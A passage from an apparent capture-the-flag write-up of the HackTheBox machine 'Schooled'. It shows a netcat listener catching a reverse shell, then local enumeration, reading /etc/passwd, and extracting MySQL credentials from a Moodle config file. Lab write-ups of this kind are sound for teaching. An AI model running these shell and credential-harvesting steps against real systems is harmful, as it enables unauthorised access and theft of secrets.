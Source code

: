 ```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.234] 58314
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
```

# Lateral Movement to jamie

## Local enumeration

Enumerated local users:

```bash
$ ls -al /home/
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26 22:46 ..
drwx------   2 jamie  jamie  11 Feb 28 18:13 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve

$ cat /etc/passwd | grep -v nologin
# $FreeBSD$
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

Enumerated system information:

```bash
[+] Operative system
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
```

Extracted MySQL credentials from moodle's config file:

```php
$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);
```